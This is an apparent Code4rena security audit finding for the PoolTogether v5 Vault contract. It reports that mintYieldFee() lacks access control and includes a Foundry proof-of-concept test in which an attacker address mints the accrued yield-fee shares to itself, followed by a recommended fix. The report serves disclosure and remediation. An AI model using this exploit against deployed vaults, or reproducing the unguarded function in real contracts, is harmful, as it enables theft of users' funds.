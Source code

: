 # Original link
https://github.com/code-423n4/2023-07-pooltogether-findings/issues/100
# Lines of code

https://github.com/GenerationSoftware/pt-v5-vault/blob/b1deb5d494c25f885c34c83f014c8a855c5e2749/src/Vault.sol#L394
https://github.com/GenerationSoftware/pt-v5-vault/blob/b1deb5d494c25f885c34c83f014c8a855c5e2749/src/Vault.sol#L573
https://github.com/GenerationSoftware/pt-v5-vault/blob/b1deb5d494c25f885c34c83f014c8a855c5e2749/src/Vault.sol#L1229


# Vulnerability details

## Impact

When a [liquidate()](https://github.com/GenerationSoftware/pt-v5-vault/blob/b1deb5d494c25f885c34c83f014c8a855c5e2749/src/Vault.sol#L550) exists, there is an increase of the [yield fee balance](https://github.com/GenerationSoftware/pt-v5-vault/blob/b1deb5d494c25f885c34c83f014c8a855c5e2749/src/Vault.sol#L573C1-L573C1), so the [_yieldFeeRecipient](https://github.com/GenerationSoftware/pt-v5-vault/blob/b1deb5d494c25f885c34c83f014c8a855c5e2749/src/Vault.sol#L1229) can get those fees via [Vault.mintYieldFee()](https://github.com/GenerationSoftware/pt-v5-vault/blob/b1deb5d494c25f885c34c83f014c8a855c5e2749/src/Vault.sol#L394C12-L394C24) function. The problem is that the yield fee shares can be lost because there is not any restriction about who calls [Vault.mintYieldFee()](https://github.com/GenerationSoftware/pt-v5-vault/blob/b1deb5d494c25f885c34c83f014c8a855c5e2749/src/Vault.sol#L394C12-L394C24).

## Proof of Concept

The `mintYieldFee()` function does not have any protection that could be called only by [_yieldFeeRecipient](https://github.com/GenerationSoftware/pt-v5-vault/blob/b1deb5d494c25f885c34c83f014c8a855c5e2749/src/Vault.sol#L1229) or validation that the fees must be transferred only to the `yieldFeeRecipient`.

```javascript
File: Vault.sol
394:   function mintYieldFee(uint256 _shares, address _recipient) external {
395:     _requireVaultCollateralized();
396:     if (_shares > _yieldFeeTotalSupply) revert YieldFeeGTAvailable(_shares, _yieldFeeTotalSupply);
397: 
398:     _yieldFeeTotalSupply -= _shares;
399:     _mint(_recipient, _shares);
400: 
401:     emit MintYieldFee(msg.sender, _recipient, _shares);
402:   }
```

I created a test where the yield fee shares are extracted by an attacker causing the lost of the fee shares. Test steps:

1. Setup the liquidation scenario.
2. Assert Bob is the `YieldFeeRecipient` assigned by `setYieldFeeRecipient(bob)` function;
3. An attacker can call `mintYieldFee()` and extract the fee shares.
4. Bob has 0 vault shares. Attacker has the yieldFeesShares. The feeRecipient Bob lost the fee shares.

```javascript
// test/unit/Vault/Liquidate.t.sol:VaultLiquidateTest
// forge test --match-test "testLiquidateAndMintFeesToAnAttacker"
  function testLiquidateAndMintFeesToAnAttacker() external {
    // The mint yield fee can be extracted by anyone who calls mintYieldFee() causing the lost
    // of yield fee shares.
    // 1. Setup the liquidation scenario.
    // 2. Assert Bob is the YieldFeeRecipient assigned by setYieldFeeRecipient(bob) function;
    // 3. An attacker can call mintYieldFee() and extract the fee shares.
    // 4. Bob has 0 vault shares. Attacker has the yieldFeesShares.
    //
    // 1. Setup the liquidation scenario.
    //
    address attacker = address(1337);
    _setLiquidationPair();
    vault.setYieldFeePercentage(YIELD_FEE_PERCENTAGE);
    vault.setYieldFeeRecipient(bob);
    uint256 _amount = 1000e18;
    underlyingAsset.mint(address(this), _amount);
    _sponsor(underlyingAsset, vault, _amount, address(this));
    uint256 _yield = 10e18;
    _accrueYield(underlyingAsset, yieldVault, _yield);
    vm.startPrank(alice);
    prizeToken.mint(alice, 1000e18);
    uint256 _liquidatedYield = vault.liquidatableBalanceOf(address(vault));
    _liquidate(liquidationRouter, liquidationPair, prizeToken, _liquidatedYield, alice);
    vm.stopPrank();
    uint256 _yieldFeeShares = _getYieldFeeShares(_liquidatedYield, YIELD_FEE_PERCENTAGE);
    assertEq(vault.balanceOf(bob), 0);
    assertEq(vault.balanceOf(attacker), 0);
    assertEq(vault.totalSupply(), _amount + _liquidatedYield);
    assertEq(vault.yieldFeeTotalSupply(), _yieldFeeShares);
    //
    // 2. Assert Bob is the YieldFeeRecipient assigned by setYieldFeeRecipient(bob) function
    //
    assertEq(vault.yieldFeeRecipient(), bob);
    //
    // 3. An attacker can call mintYieldFee and extract the fee shares.
    //
    vm.prank(attacker);
    vault.mintYieldFee(_yieldFeeShares, attacker);
    //
    // 4. Bob has 0 vault shares. Attacker has the yieldFeesShares.
    //
    assertEq(vault.balanceOf(bob), 0);
    assertEq(vault.balanceOf(attacker), _yieldFeeShares);
    assertEq(vault.totalSupply(), _amount + _liquidatedYield + _yieldFeeShares);
    assertEq(vault.yieldFeeTotalSupply(), 0);
  }
```

## Tools used

Manual review

## Recommended Mitigation Steps

Validates the `Vault.mintYieldFee()` function must be called only by the `yieldFeeRecipient()` or ensure the yield fees should be transferred only to the `yieldFeeRecipient()`.


## Assessed type

Access Control